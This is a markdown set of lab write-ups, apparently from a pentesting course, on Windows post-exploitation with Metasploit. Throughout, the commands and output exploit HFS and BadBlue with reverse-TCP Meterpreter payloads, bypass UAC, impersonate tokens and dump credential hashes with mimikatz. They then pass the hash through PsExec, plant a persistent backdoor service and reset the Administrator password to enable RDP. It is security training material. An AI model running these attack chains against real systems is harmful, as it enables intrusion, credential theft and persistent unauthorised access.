# 🔬Win Post Exploitation - MSF

## Lab 1 - HTTP/HFS

> 🔬 Same [HFS Exploitation lab](hfs-msf-exp.md)
>
> - Target IP: `10.2.16.114`
> - Metasploit **`post/multi/manage/shell_to_meterpreter`** module

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.16.114
setg RHOST 10.2.16.114
workspace -a Windows_PostExp
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 10.2.16.114
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc		 Microsoft Windows RPC
49154/tcp open  msrpc		 Microsoft Windows RPC
49155/tcp open  msrpc		 Microsoft Windows RPC
49165/tcp open  msrpc		 Microsoft Windows RPC
```

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
run
```

- In the new `Meterpreter` session, enumerate the Windows target

### Some commands

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

```bash
help
# Check Windows Mterpreter commands
```

```bash
screenshot
```

```bash
getsystem
	...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

getuid
	Server username: NT AUTHORITY\SYSTEM
```

```bash
hashdump
# Probably not working
```

```bash
show_mount
    Mounts / Drives
    ===============
    Name  Type   Size (Total)  Size (Free)  Mapped to
    ----  ----   ------------  -----------  ---------
    C:\   fixed   29.66 GiB      8.48 GiB   

    Total mounts/drives: 1
```

```bash
ps
migrate 2356
# explorer.exe

sysinfo
# Meterpreter: x64/windows
```

```bash
cd C:\\
cat flag.txt
	f74c8347798f4082daf4b4570dba094a
```

### Some Post Exploitation

```bash
background
sessions
	1 meterpreter x64/windows WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN 10.10.24.4:4444 -> 10.2.16.114:49508 (10.2.16.114)
```

- Architecture migrate

```bash
search migrate
use post/windows/manage/migrate
info
# Description:
#   This module will migrate a Meterpreter session from one process to 
#   another. A given process PID to migrate to or the module can spawn 
#   one and migrate to that newly spawned process.
set SESSION 1
run

# It will not migrate if it's already a x64 process  
```

- Migration e.g. from x86 service

```bash
use post/windows/manage/archmigrate
set SESSION 1
run
```



- Enumerate current user privileges

```bash
search win_privs
use post/windows/gather/win_privs
set SESSION 1
run
```



- Check current and recently logged on users

```bash
search enum_logged_on
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```



- Determine if the system is a VM

```bash
search checkvm
use post/windows/gather/checkvm
set SESSION 1
run
```



- Enumerate installed programs

```bash
search enum_applications
use post/windows/gather/enum_applications
set SESSION 1
run
```

> 📌 *Applications version is a very useful information. It can lead to a privilege escalation vulnerability!*



```bash
loot
```

- The `/root/.msf4/loot/` folder can be handy.



- Check Antivirus

```bash
search type:post platform:windows enum_av
use post/windows/gather/enum_av_excluded
# Description:
#   This module will enumerate the file, directory, process and 
#   extension-based exclusions from supported AV products, which 
#   currently includes Microsoft Defender, Microsoft Security 
#   Essentials/Antimalware, and Symantec Endpoint Protection.
set SESSION 1
run
```



- Enumerate domain computers

```bash
search enum_computers
use post/windows/gather/enum_computers
set SESSION 1
run
```



- Enumerate installed patches

```bash
search enum_patches
use post/windows/gather/enum_patches
# Description:
#   This module will attempt to enumerate which patches are applied to a 
#   windows system based on the result of the WMI query: SELECT HotFixID 
#   FROM Win32_QuickFixEngineering

# A KB list can be specified

set SESSION 1
run

# If this doesn't work, migrate to a "NT AUTHORITY\SYSTEM" user service
```



- Enumerate any shares

```bash
search enum_shares
use post/windows/gather/enum_shares
set SESSION 1
run
```



- Check if RDP is enabled

```bash
search rdp platform:windows
use post/windows/manage/enable_rdp
set SESSION 1
run
```



------

## Lab 2 - UAC Bypass

> 🔬 [UAC Bypass: Memory Injection (Metasploit)](https://attackdefense.com/challengedetailsnoauth?cid=2210)
>
> - Target IP: `10.2.18.116`
> - Metasploit [**`Windows Escalate UAC Protection Bypass (In Memory Injection)`**](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/) module
>   - *This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three separate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also). If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process.*

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.18.116
setg RHOST 10.2.18.116
workspace -a UAC_Bypass
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 10.2.18.116
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49163/tcp open  msrpc 		 Microsoft Windows RPC
49175/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation / Meterpreter x64

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : VICTIM
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```

### Privilege Escalation

```bash
getuid
	Server username: VICTIM\admin
	
getsystem
# gesystem fails

getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
# "admin" user my be part of the Administrators group
```

```bash
shell
```

- On the Windows target `cmd`

```bash
net users
	admin Administrator Guest

net localgroup administrators
    Members
    -------------
    admin
    Administrator
# Yes, "admin" is part of the Administrators group
# but doesn't have administrative privileges through the Meterpreter session
exit
```

#### Bypass UAC

```bash
background
sessions
	2 meterpreter x64/windows VICTIM\admin @ VICTIM 10.10.24.6:4444 -> 10.2.18.116:49219 (10.2.18.116)
```

```bash
search bypassuac
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 2
set LPORT 5533
run
```

```bash
[*] Started reverse TCP handler on 10.10.24.6:5533 
[+] Windows 2012 R2 (6.3 Build 9600). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[-] Exploit aborted due to failure: bad-config: x86 Target Selected for x64 System
[*] Exploit completed, but no session was created.
```

- Select the correct target - `x64`

```bash
set TARGET Windows\ x64
run
```



- Now the **`getsystem`** command should work

```bash
getsystem
```



### Hashes Dump

```bash
hashdump
```

```bash
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f168d9f8e6c5b893b8c4dfa202228235:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```


<details>
<summary>Reveal Flag - Administrator NTLM Hash is: 🚩</summary>


`f168d9f8e6c5b893b8c4dfa202228235`

</details>


------

## Lab 3 - Token Impersonation

> 🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
> - Target IP: `10.2.16.163`
> - Check the [🔬Access Token lab here](../1-system-attack/windows-attacks/accesstoken.md) that already covered the Incognito tool
>
> - Metasploit **Token Impersonation with Incognito** inbuilt Meterpreter module
> - [Access Token Impersonation - Description](../1-system-attack/windows-attacks.md#access-token-impersonation)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.16.163
setg RHOST 10.2.16.163
workspace -a Impersonate
db_nmap -sV 10.2.16.163
```

```bash
80/tcp   open  http          HttpFileServer httpd 2.3
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation / Meterpreter x64

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
	
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege # Token Impersonation can be performed
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege

hashdump # try to check if the user have sufficient privileges
```

### Privilege Escalation

#### [Incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)

```bash
load incognito
```

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available
    ========================================
    No tokens available
```

- `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator

ps
migrate 3548
# explorer.exe

hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

```bash
cd C:\\Users\\Administrator\\Desktop\\
dir
cat flag.txt
	x28c832a39730b7d46d6c38f1ea18e12
```

------

## Lab 4 - Dump Hashes Mimikatz

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340)
>
> - Target IP: `10.2.17.39`
> - Check the [🔬Lab 2 - Mimikatz lab here](../1-system-attack/windows-attacks/creds-dump.md) with full description of the commands

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.17.39
setg RHOST 10.2.17.39
workspace -a Mimikatz
db_nmap -sV 10.2.17.39
```

```bash
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation

```bash
search badblue 2.7
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

### Hash Dumping - Kiwi

```bash
pgrep lsass
migrate 776

# Meterpreter: x64/windows
```

```bash
load kiwi
```

```bash
creds_all
lsa_dump_sam
lsa_dump_secrets
```

### Hash Dumping - Mimikatz.exe

```bash
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

- Run `mimikatz.exe`

```bash
mimikatz.exe
privilege::debug
	Privilege '20' OK
# I have the required privileges for hash extraction from memory
```

- Dump the cache of the `lsass` process

```bash
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords
```

------

## Lab 5 - Pass-the-Hash with PsExec

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340) - same lab as Lab 4
>
> - Target IP: `10.2.28.123`
> - Check the [🔬Lab 3 - Pass-the-hash lab here](../1-system-attack/windows-attacks/creds-dump.md) for full description
> - Metasploit **PsExec** module

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.28.123
setg RHOST 10.2.28.123
workspace -a PsExec
db_nmap -sV 10.2.28.123
```

```bash
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

### Privilege Escalation

```bash
pgrep lsass
migrate 780
getuid
	Server username: NT AUTHORITY\SYSTEM
```

### [Pass-the-hash - PSExec](https://www.offsec.com/metasploit-unleashed/psexec-pass-hash/)

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

- **Use PSExec to login with `Administrator` user and its password hashes**

```bash
exit
search psexec
use exploit/windows/smb/psexec
options
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
exploit
```

```bash
getuid
	Server username: NT AUTHORITY\SYSTEM

sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows
```

------

## Lab 6 - Persistence

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> - Target IP: `10.2.20.185`
> - Metasploit **persistence** modules

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.20.185
setg RHOST 10.2.20.185
workspace -a Persistence
db_nmap -sV 10.2.20.185
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Persistence

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set SESSION 1
run
```

- Successfull maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.



```bash
exit

# Kill all sessions
sessions -K
sessions
	# No active sessions.
```

- Regain access to the system

```bash
use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```

------

## Lab 7 - [Enabling RDP](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/)

> 🔬 [Windows: Enabling Remote Desktop](https://attackdefense.com/challengedetails?cid=1958)
>
> - Target IP: `10.2.21.205`
> - Enable **RDP** on the target machine on port **`3389`**

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.21.205
setg RHOST 10.2.21.205
workspace -a RDP
db_nmap -sV 10.2.21.205
```

```bash
80/tcp    open  http         BadBlue httpd 2.7
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49175/tcp open  msrpc        Microsoft Windows RPC

# RDP 3389 is disabled
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows

getuid
	Server username: NT AUTHORITY\SYSTEM

background
```

### Enable RDP

```bash
search enable_rdp
use post/windows/manage/enable_rdp
options
sessions
set SESSION 1
run
```



```bash
# Verify port 3389 is open
db_nmap -p 3389 10.2.21.205
```

```bash
3389/tcp open  ms-wbt-server
```

- To access RDP, login credentials are necessary

```bash
sessions
sessions 1
shell
net users
	Administrator Guest
```

- Change the `Administrator` user's password (no recommended in a real-world system)


> 📌 *During a standard Pentest, create another user account, add it to the Administrators group and utilize that one.*

```bash
net user administrator p4ssword_12344321
exit
```

Legitimate credentials are now: `administrator`:`p4ssword_12344321`

- In a new Terminal TAB

```bash
xfreerdp /u:administrator /p:p4ssword_12344321 /v:10.2.21.205
```

